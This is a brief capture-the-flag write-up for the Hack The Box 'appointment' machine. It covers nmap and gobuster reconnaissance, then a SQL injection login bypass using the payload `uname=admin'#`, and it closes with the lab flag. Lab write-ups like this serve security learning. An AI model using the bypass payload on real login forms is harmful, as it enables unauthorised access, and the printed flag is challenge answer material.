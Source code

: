 ```yaml
---
title: "HTB: appointment"
date: 2022-04-30T21:54:03-07:00
draft: true
tags: ["web"]
categories: ["htb"]
# description: "This is a description"
---
```


A simple writeup for the `appointment` box from HTB

<!--more-->

### nmap
Strating with an nmap.

```
# Nmap 7.92 scan initiated Fri Apr 29 16:22:44 2022 as: nmap -sV -sC -oA nmap/appointment 10.129.22.167
Nmap scan report for 10.129.22.167
Host is up (0.12s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Login
|_http-server-header: Apache/2.4.38 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Apr 29 16:22:56 2022 -- 1 IP address (1 host up) scanned in 12.20 seconds
```

Nothing too interesting here.

### gobuster
Pivoted to gobuster to see subdirectories:\
`gobuster dir -u http://10.129.22.167 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt`

```
/images               (Status: 301) [Size: 315] [--> http://10.129.22.167/images/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.22.167/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.22.167/js/]
/vendor               (Status: 301) [Size: 315] [--> http://10.129.22.167/vendor/]
```

### sqlinjection

After looking at the webage, the input forms seemed potentially vulnerable to sqlinjection.

`uname=admin'#` payload granted the flag.

---
**flag:**
`e3d0796d002a446c0e622226f42e9672`